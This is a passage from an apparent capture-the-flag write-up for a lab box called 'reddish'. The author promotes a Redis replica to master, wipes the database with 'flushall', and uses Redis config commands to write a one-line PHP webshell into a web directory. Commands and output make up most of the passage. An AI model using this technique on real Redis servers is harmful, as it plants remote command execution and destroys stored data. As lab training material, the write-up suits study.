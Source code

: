 So I changed my role to Master.

```bash
127.0.0.1:6379> slaveof no one
OK
(0.55s)
127.0.0.1:6379> info
.
.
.
.
.
.
# Replication
role:master
```

Reference:

> [https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)

> [https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

> [https://stackoverflow.com/questions/34155977/redis-promoting-a-slave-to-master-manually](https://stackoverflow.com/questions/34155977/redis-promoting-a-slave-to-master-manually)

Now its time to get a shell, I created a webshell payload. By following HackTricks. So Where we upload it? We don't know the exact location? But if we recall, We already saw some web directory from the webpage's source code. So I tried with them.

```bash
root@kali:~/boxes/reddish# (echo -e "\n\n"; cat shell.php; echo -e "\n\n") > wolf.php
root@kali:~/boxes/reddish# cat wolf.php 

<?php system($_REQUEST['wolf']); ?>

root@kali:~/boxes/reddish# redis-cli -h 127.0.0.1 flushall
OK
root@kali:~/boxes/reddish# cat wolf.php | redis-cli -h 127.0.0.1 -x set crackit
OK
root@kali:~/boxes/reddish# redis-cli -h 127.0.0.1
127.0.0.1:6379> config set dir /var/www/html/8924d0549008565c554f8128cd11fda4/
OK
(0.56s)
127.0.0.1:6379> config get dir
1) "dir"
2) "/var/www/html/8924d0549008565c554f8128cd11fda4"
(0.55s)
127.0.0.1:6379> config set dbfilename "wolf.php"
OK
(0.56s)
127.0.0.1:6379> save
OK
(0.55s)
127.0.0.1:6379>
```
